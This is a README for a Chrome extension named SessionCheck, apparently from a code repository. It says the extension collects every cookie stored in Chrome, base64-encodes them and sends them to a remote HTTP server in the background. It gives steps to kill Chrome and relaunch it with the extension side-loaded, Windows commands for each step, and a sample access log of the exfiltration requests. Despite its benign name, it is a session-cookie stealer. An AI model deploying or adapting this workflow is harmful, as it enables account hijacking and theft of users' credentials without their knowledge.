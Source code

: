 # SessionCheck
SessionCheck is a Chrome extension to check session availability.

## Usage

Load the extension. It retrieve all cookies stored in Chrome and send them to a remote HTTP server in the background. Note that cookies are encoded with base64, then sent as a parameter value.

Typical way to use SessionCheck:

1. Launch an HTTP server to retrieve session information
1. Place SessionCheck under a directory
1. Terminate all Chrome processes
1. Launch Chrome again with `--load-extension` and `--profile-directory` (optional)
1. SessionCheck sends session information to the HTTP server
1. You can see the session information in the access log (see the Example section)

## Example

```
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000000&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000001&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000002&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000003&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000004&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000005&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000006&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000007&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
127.0.0.1 - - [DD/Aug/2022:HH:MM:SS +0000] "GET /js/chk.js?s=00000008&d=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX= HTTP/1.1" 404 297 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36"
```


## Note

The following commands related to session check might help you for the session check.

Kill all Chrome processes:

```
taskkill /f /im:chrome.exe
```

Load this extension:

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --profile-directory="Default" --load-extension="C:/Path/to/SessionCheckDirectory"
```

Base64 decode:
```
certutil -decode b64text.txt decoded.json
```


